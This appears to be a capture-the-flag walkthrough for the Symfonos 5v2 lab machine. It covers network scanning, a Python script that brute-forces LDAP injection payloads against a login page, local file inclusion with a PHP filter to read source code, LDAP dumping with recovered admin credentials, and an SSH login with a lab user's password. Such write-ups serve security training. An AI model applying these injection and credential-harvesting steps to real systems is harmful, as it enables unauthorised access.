 # SYMFONOS 5V2

# Information Gathering
## 1.1 Discovery host
`nmap -Pn -F 192.168.196.1/24 -oN host_discovery.txt`
![5c85eeec9fcbcf370e825d573ebbcd96.png](./_resources/deafa02fa26b4a93b959080a6e9e7c3c.png)


## 1.2 Service enum
`nmap -sV -sC -p- 192.168.196.128 -oN full_service_enum-sC.txt`
![fac1583f3d1c8e3279936256b3cdb1d6.png](./_resources/34b390e29a164a6d9f89e36b85e7c5fd.png)

## 1.3 Web
![1d07ec80db792f70f1ca01ce5c71cb39.png](./_resources/bff54c526e9f415da0473817d0ed14df.png)

### 1.3.1 Wappalyzer
![e417e2de566f14691ed766389420ca6b.png](./_resources/5ce1e98fbe8043fa835ecfcdcc6ef712.png)

## 1.3.2 Dirb enum web content
`dirb http://192.168.196.128`

![4d40c830929a49cedc6d5dd162fb7ae1.png](./_resources/0a0b1081cd534842beacb5c5693314ea.png)


# 2 Exploitation 
Since we have a login page with php (80) and ldap port (389), becomes deductible that the login is based on ldap authentication.

## 2.1 Ldap injection - burpsuit intruder 
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/README.md
![b549598719eae6ffb3f1b5563a768d5c.png](./_resources/63b6957412504f2691fe4123f66fb415.png)
At one point it returns responses of different length.

## 2.1 Ldap injection - automation python script
```
# Script para ldap injection - byth22
#!/usr/bin/env python2.7
# -*- coding: utf-8 -*-

import requests
import re

def brute(target, headers):
    f = open("ldapi-payloads.txt", "r")
    for i in f:
        params = (
            ('username', i),
            ('password', 'teste'),
        )
            
        response = requests.get('http://'+target+'/admin.php', headers=headers, params=params, verify=False)

        try:
            re.findall(r'Invalid', response.content)[0]

        except IndexError:
            print ("Payload encontrada: %s" %i)


def main():
    target = '192.168.196.130'

    headers = {
        'Host': target,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Connection': 'close',
        'Referer': 'http://192.168.196.130/admin.php',
        'Upgrade-Insecure-Requests': '1',
    }
    brute(target, headers)


main()
````

## 2.2 Local file inclusion after login
![ee4356d8b67bedd8fbe989f961e86a1a.png](./_resources/5ae134b2455e48ef937780e99b675901.png)
A normal payload (/etc/passwd) works, and there was an attempt to read admin.php for analyse its code, but it is rendered. We dont need an rendered page, we need read it. For it was used php filter:
![ebc7c3f32e61d368c35bed337b2f09b0.png](./_resources/ac7266981ca346009b6e1f99f807e39c.png)
Ant it works.

Now we can decode and read it:
![3464297aaa1f79da24548da3b2040de7.png](./_resources/2a0c9a6803084a9f90290106b50f93a2.png)

Let’s use these credentials to dump all the information using ldap.
```
ldapsearch -x -LLL -h 192.168.196.128 -D 'cn=admin,dc=symfonos,dc=local' -w qMDdyZh3cT6eeAWD -b 'dc=symfonos,dc=local'
```
![6acd37b2c09c51c28a9df47a04433b43.png](./_resources/0ad781d9c6d3402a998e79935d88a86c.png)

## 2.2.1 SSH using zeus account
zeus:cetkKf4wCuHC9FET
![bd224c6770df272f225fe539ea0ca4ca.png](./_resources/5dc5e9268fd14d818a4f9a0a1029579b.png)


# 3 Post-exploitation
https://gtfobins.github.io/gtfobins/dpkg/

LinEnum.sh returned some good informations:
![a8930b15a4e6fea2c76677d100e8a15d.png](./_resources/e2c3119d4ddc4a09861c59075575c8ac.png)
![ca2b481efa73145d38df2a60fd66df71.png](./_resources/e078831174654845bf64330c71c2d07d.png)
